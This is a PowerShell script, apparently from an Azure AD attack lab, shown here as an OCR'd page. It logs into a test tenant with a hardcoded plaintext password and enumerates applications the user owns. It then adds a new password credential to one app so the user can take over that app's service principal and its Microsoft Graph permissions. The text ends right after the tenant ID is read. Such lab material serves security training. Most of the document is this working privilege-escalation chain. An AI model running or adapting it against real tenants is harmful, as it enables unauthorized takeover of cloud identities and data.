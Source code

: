 This can be executed as a powershell script

#---------------------------------------------------

Disconnect-AzAccount
#------------------------------------------ConnectToAzureUser----------------------------------------------#
$us5Username = "us5@xmazuretestgmail.onmicrosoft.com"
$us5Password = "Hahahaha147222343!"
$SecurePassword = ConvertTo-SecureString $us5Password -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential -argumentlist $us5Username, $SecurePassword
Connect-AzureAD –Credential $Credential
#----------------Whoami-------------------#
((Get-AzContext).Account).ID

#-------------------------------------------ReconnaissanceUS5----------------------------------------------#

#------------CheckIfUS5ApplicationOwner------------#

$arrAppObjectId = @((Get-AzureADApplication).ObjectId)
foreach($objectId in $arrAppObjectId){Get-AzureADApplicationOwner -ObjectId $objectId | Where-Object{$_.DisplayName -eq "us5"}}

#-------------------------------------------ReconnaissanceScenario5App----------------------------------------------#
$scenario5ObjectID = (Get-AzureADApplication -SearchString scenarioapp6).ObjectId
$scenario5AppID = (Get-AzureADApplication -SearchString scenarioapp6).AppId


$appObjectID = (Get-AzureADApplication -SearchString scenarioapp6).ObjectID
$app = Get-AzureADApplication -ObjectId $appObjectID
$app.requiredResourceAccess | ConvertTo-Json -Depth 3

$scenario5Role = (($app.requiredResourceAccess | ConvertTo-Json -Depth 3).split(":")[3].split('"')[1]).trim()

$scenario5SP = Get-AzureADServicePrincipal -All $true | Where-Object {$_.AppId -eq '00000003-0000-0000-c000-000000000000'}
$scenario5SP.AppRoles | Where-Object {$_.Id -eq $scenario5Role}

#---------------------------------UseOwnerPrivilegeToConnectServicePrincapl--------------------------------#
Try{
$AppPassword = New-AzureADApplicationPasswordCredential -ObjectID $scenario5ObjectID
Start-Sleep -s 5
}
catch{
exit
}
Start-Sleep -s 20
$TenantID = (Get-AzureADTenantDetail).ObjectId

Write-Host "[+] Disconnect FROM AZURE"
Disconnect-AzAccount
$scenario5Token = $null
